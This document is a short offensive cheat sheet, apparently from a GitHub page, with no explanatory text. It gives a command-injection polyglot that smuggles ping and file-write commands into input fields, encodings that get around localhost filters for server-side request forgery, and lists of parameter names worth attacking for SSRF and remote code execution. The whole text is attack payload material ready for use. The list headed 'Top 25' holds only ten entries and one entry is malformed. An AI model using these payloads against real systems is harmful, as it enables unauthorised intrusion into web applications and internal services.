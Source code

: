 # Command injection polyglot
```
/*$(ping -c 2 example.com)`ping -c 2 example.com``*/-ping -c 2 example.com-'/*$(ping -c 2 example.com)`ping -c 2 example.com` #*/-ping -c 2 example.com||'"||ping -c 2 example.com||"/*`*/
/*$(echo 1 >/tmp/rce1)`echo 1 >/tmp/rce1``*/-echo 1 >/tmp/rce1-'/*$(echo 1 >/tmp/rce1)`echo 1 >/tmp/rce1` #*/-echo 1 >/tmp/rce1||'"||echo 1 >/tmp/rce1||"/*`*/
```
# SSRF Bypass list for localhost (127.0.0.1):
```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

# Top 25 SSRF parameters
```
?dest={target}
?redirect={target}
?uri={target}
?path={target}
?continue={target}
?url={target}
?window={target}
?next={target}
?data={target}
?reference={target}
?site={target}
?html={target}
?val={target}
?validate={target}
?domain={target}
?callback={target}
?return={target}
?page={target}
?feed={target}
?host={target}
?port={target}
?to={target}
?out={target}
?view={target}
?dir={target}
```
# Top 25 RCE parameters
```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
```